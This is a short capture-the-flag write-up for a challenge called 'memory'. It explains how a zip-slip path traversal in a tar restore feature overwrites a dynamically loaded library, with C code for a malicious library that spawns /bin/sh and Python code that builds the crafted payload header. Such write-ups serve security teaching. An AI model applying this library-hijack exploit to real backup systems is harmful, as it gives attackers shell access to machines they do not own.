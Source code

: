 # memory

## Vulnerability
overwrite library for command injection using zip slip vuln.

## Intended Solution
When the program restores, it checks validation of backup file. if there is no problem, it dynamically loads the library and decompresses it using tar with `P` option which can cause the zip slip vulnerability.    
![screenshot](./img/4.png)  
![screenshot](./img/5.png)  

In general, it is decompressed to the data folder(./data), but you can overwrite the library in the lib folder(./lib/libutil.so) using zip slip(./../lib/libutil.so).

0. make the dynamic library including "execute(char* cmd)" function
    ```
    #include <stdio.h>

    void execute(char *cmd){
        system("/bin/sh");
    }

    ```

1. modify the file name field of the tar file( ./../lib/libutil.so )  
![screenshot](./img/1.png)

2. add a custom header at the beginning of a tarf file
   custom header : ({magic string}4byte+{tar file size}4byte+ {sha256hash of tarfile}32byte)
   ```
   m = hashlib.sha256()
   fd = open("./hack.tar","rb")
   tar = fd.read()
   m.update(tar)
   tar_hash = m.digest()
   magic = b"SCTF"
   payload = magic + struct.pack("<i",len(tar))+tar_hash+tar
   ```
3. choose the restore menu and send a payload then you can overwrite the libutil.so file 

4. choose the backup menu then you can get a shell   
![screenshot](./img/6.png)
